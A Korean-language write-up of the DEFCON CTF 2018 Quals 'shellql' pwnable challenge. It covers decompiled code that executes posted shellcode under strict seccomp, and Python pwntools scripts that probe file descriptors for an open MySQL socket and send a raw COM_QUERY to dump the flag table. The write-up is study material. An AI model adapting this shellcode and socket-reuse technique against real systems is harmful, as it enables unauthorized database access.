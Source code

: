 ```yaml
---
layout: post
title: shellql
category: Pwnable
source: "DEFCON CTF 2018 Quals."
rpath: /resource/shellql
tag: [mysql, shellcode, cgi, COM_QUERY]
---
```


**Category**: Pwnable

**Source**: DEFCON CTF 2018 Quals.

**Points**: 118

**Author**: Jisoon Park(js00n.park)

**Description:** 

> Do you even SQL? The flag is in the table `flag`
> 
> http://ssat-ps.iptime.org:5103
> 
> [download]({{site.github.master}}{{page.rpath}}/shellme.so)

## Write-up

(*. 문제 환경을 재구성하여 풀이하였습니다.)

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

문제 사이트에 접속하면 shell을 입력하라고 한다. 뭘 입력해야 할지 모르겠는데, **debug me** 메뉴가 있으니 들어가보자.

```php
$link = mysqli_connect('localhost', 'shellql', 'shellql', 'shellql');

if (isset($_POST['shell']))
{
   if (strlen($_POST['shell']) <= 1000)
   {
      echo $_POST['shell'];
      shellme($_POST['shell']);
   }
   exit();
}
```

php-cgi [소스 코드]({{site.github.master}}{{page.rpath}}/index.php)가 보인다. 우선 shellql database에 연결을 만들고, 내가 보낸 shell을 shellme() 함수를 통해 호출하는 간단한 코드이다.

cgi니까 shelle() 함수는 첨부된 shellme.so 파일에 정의되어 있을 것 같다. IDA로 shellme.so를 열어보자.

```c
Php::Value *__fastcall shellme(Php::Value *this, __int64 *a2)
{
  __int64 v2; // rsi
  void *src; // [rsp+0h] [rbp-48h]
  __int64 v5; // [rsp+10h] [rbp-38h]
  unsigned __int64 v6; // [rsp+28h] [rbp-20h]

  v2 = *a2;
  v6 = __readfsqword(0x28u);
  ZNK3Php5Value11stringValueB5cxx11Ev(&src, v2);
  j_shell_this(src);
  Php::Value::Value(this, 1);
  if ( src != &v5 )
    operator delete(src);
  return this;
}

__int64 __fastcall j_shell_this(void *src)
{
  return shell_this(src);
}

__int64 __fastcall shell_this(void *src)
{
  size_t v1; // rbx
  void *v2; // rbp

  v1 = (signed int)strlen((const char *)src);
  v2 = mmap(0LL, v1, 7, 34, -1, 0LL);
  memcpy(v2, src, v1);
  alarm(0x1Eu);
  prctl(22, 1LL);
  return ((__int64 (*)(void))v2)();
}
```

shellme() 함수는 php에서 넘어온 파라미터를 이용하여 argument로 전달된 shell string을 복구하고 j_shell_this() 함수로 넘기는데, j_shell_this() 함수는 그냥 shell_this() 함수를 호출하는 함수이다.

shell_this() 함수는 mmap으로 메모리 구역을 설정한 후 전달받은 데이터를 복사해넣고 해당 메모리를 호출하여 실행한다.

참고로, mmap()은 아래와 같은 모양을 하고 있다.

```
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
```

메모리의 적당한 영역에 v1(src 길이)만큼의 메모리를 할당하고, RWX 권한을 부여하는데 flags는 MAP_ANONYMOUS \| MAP_PRIVATE로 설정하여 다른 프로세스와 공유되지 않도록 하였다. (MAP_ANONYMOUS라서 fd는 -1, offset은 0이다.)

prctl() 함수는 SECCOMP를 걸어주는 함수인데, prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT)이 걸려있다. 이 모드에서는 read()/write()/exit()/sigret() syscall만 사용할 수 있다고 한다.

SECCOMP 제약만 만족하는 shellcode를 써주면 그대로 실행해주는 함수를 친절하게 제공해주니 shellcode를 잘 쓰면 될 것 같은데, native program에서 mysql을 어떻게 사용할 수 있는지가 문제에서 묻는 내용인 것 같다.

처음에 php-cgi 코드를 봤을 때는 sqli_connect() 함수를 호출하는 라인이 mysql 계정과 database를 알려주기 위해서 작성된거라고 생각해서 c의 mysql connector를 shellcode로 작성하려고 했는데, 보면 볼수록 답이 보이질 않았다.

mysql은 tcp 3306 포트를 통해 서비스 되니, 소켓 통신이 가능할지 살펴보자. seccomp 때문에 소켓을 새로 열 수는 없지만 php-cgi에서 이미 연결을 만들었으니 소켓이 열려있을 수도 있을 것 같다. linux에서는 파일이건 소켓이건 모두 file로 간주되니 소켓이 열려있다면 [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)를 사용할 수 있을것이다.

```
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket.
```

알다시피, file descriptor 0, 1, 2번은 예약 되어 있고 보통 순서대로 열리니 3번 부터 write를 시도해보자.

```python
[...]

context(arch='amd64', os='linux')

#URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'
URL = 'http://ssat-ps.iptime.org:5103/cgi-bin/index.php'

print "fd write test(3~9)"
fd = []
for i in range(3, 10):
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += "add eax, 48\n"
	payload += "mov [rsp], rax\n"
	payload += shellcraft.write(1, 'rsp', 1)

	data = {'shell': asm(payload)}

	res = requests.post(URL, data = data)
	if res.text == str(len(msg)):
		print "%d is alive!"%i
		fd.append(i)
```

위 코드는 3번부터 9번 fd까지에 특정 메세지를 write한 후 return value(rax)를 이용해서 write가 성공하는지 확인한다. shellcraft에서 echo나 write를 할때 rsp를 string buffer로 활용하길래 출력 buffer도 rsp를 이용하였다.

처음에는 코드를 제대로 구성한 것 같은데도 http 500 response가 오면서 출력 결과를 확인할 수 없었는데, 찾아보니 cgi 프로그램에서는 가장 먼저 [MIME-type 헤더 출력](https://httpd.apache.org/docs/trunk/ko/howto/cgi.html#writing)이 있어야 한다고 해서 추가해 주었더니 정상적으로 출력을 확인할 수 있었다. (Content-type 없이 그냥 "\n" 하나만 넣어도 정상동작한다. 빈 줄이 필요한걸 보면 cgi 출력이 html response 헤더에 바로 attach 되나보다.)

![img]({{page.rpath|prepend:site.baseurl}}/writable_ports.png)

코드 실행결과 3번과 4번 fd가 열려 있는 것을 확인할 수 있다.

3번 또는 4번 포트가 mysql 포트라면, query에 대해 response도 확인할 수 있어야 할 것이다.

위와 동일한 방법으로 write 후에 돌아오는 response를 read로 확인해보자.

```python
print "\nfd read test for writable ports"
for i in fd:
	msg = "A" * 8
	payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
	payload += shellcraft.write(i, msg, len(msg))
	payload += shellcraft.read(i, 'rsp', 10)
	payload += shellcraft.write(1, 'rsp', 'rax')
	
	data = {'shell': asm(payload)}

	res = requests.post(URL, data=data)
	if len(res.text) > 0:
		print "%d is available."%i
		mysql_port = i
```

![img]({{page.rpath|prepend:site.baseurl}}/readable_ports.png)

3번과 4번 포트 중에 4번 포트에만 response가 있었다. mysql은 4번 포트를 사용할 가능성이 매우 높아 보인다.

이제 4번 포트를 이용해서 mysql query를 날려보자.

[mysql documentation](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_connection_lifecycle.html)에 따르면 mysql protocol은 connection phase - command phase - replication phase가 있다고 한다.

connection phase는 처음 database에 접속하는 과정이며, 이 문제에서는 php-cgi에서 mysqli_connect() 함수가 실행될때 완료되었을테니 바로 command phase로 넘어가면 된다.

command phase는 database에 query를 날리는 과정이다. query를 날릴 때는 [COM_QUERY](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_com_query.html)를 이용한다고 한다. COM_QUERY는 [length \| 0x03 \| Query] 형식으로 구성되는데 length는 4 byte little endian이란다. (나중에 writeup들을 봤더니 mysql query를 wireshark로 잡아서 COM_QUERY 구조를 알아낸 팀도 있었다.)

```python
print "\nget query result"
msg = "\x03" + "select * from flag"								#COM-QUERY format
msg = p32(len(msg)) + msg
payload = shellcraft.echo("Content-type: text/html\n\n", 1)		#cgi header
payload += shellcraft.write(mysql_port, msg, len(msg))
payload += shellcraft.read(mysql_port, 'rsp', 200)
payload += shellcraft.write(1, 'rsp', 'rax')

data = {'shell': asm(payload)}

res = requests.post(URL, data=data)
pattern = re.compile(r'OOO{.+}')
print re.search(pattern, res.text).group()
```

처음에는 100 바이트만 읽었는데, flag가 짤려서 나왔다. res.text 전체를 출력하면 여러 지저분한 값들이 많이 나오는데, 아마 COM_QUERY에 대한 응답 형식일 것 같으나 별 관심은 없어서 flag만 잘라내었다.

여기까지의 [코드]({{site.github.master}}{{page.rpath}}/ex.py)를 모두 실행하면 flag를 얻을 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **OOO{shellcode and webshell is old news, get with the times my friend!}**
